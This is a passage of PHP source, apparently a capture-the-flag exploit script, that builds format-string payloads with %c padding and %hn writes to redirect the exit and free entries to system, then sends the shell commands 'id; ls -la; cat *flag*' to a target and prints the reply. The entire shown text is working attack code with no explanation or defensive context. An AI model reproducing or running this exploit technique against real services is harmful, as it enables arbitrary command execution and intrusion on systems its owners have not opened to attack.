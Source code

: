 ```php
	$shift = 1 + $i;
	$short = 0xFFFF & ($system >> (16 * $i));

	$payload = "";

	$size     = IDX_SHIFT * $shift + IDX_ARG0 - 2;
	$payload  = str_repeat("%c", $size);

	$target   = ASLR_EXIT + 2 * $i;
	$payload .= c16($target - $size);
	$size     = $target;

	$payload .= "%hn";

	// write short at exit + o
	$target   = $short;
	$payload .= cn16(IDX_SHIFT * $shift + IDX_BASE, $target - $size);

	fmt($fp, $payload);
}

step5: // redirect free to exit (now system)
$shift = 5;
$short = 0x00001130;

$payload = "id; ls -la; cat *flag* #";
$size = strlen($payload);

$idx      = IDX_SHIFT * $shift + IDX_ARG0 - 2;
$payload .= str_repeat("%c", $idx);
$size    += $idx;

$target   = ASLR_FREE;
$payload .= c16($target - $size);
$size     = $target;

$payload .= "%hn";

$target   = $short;
$payload .= cn16(IDX_SHIFT * $shift + IDX_BASE, $target - $size);

fwrite($fp, "$payload\n");

while($buffer = fread($fp, 4096))
	echo $buffer;
```
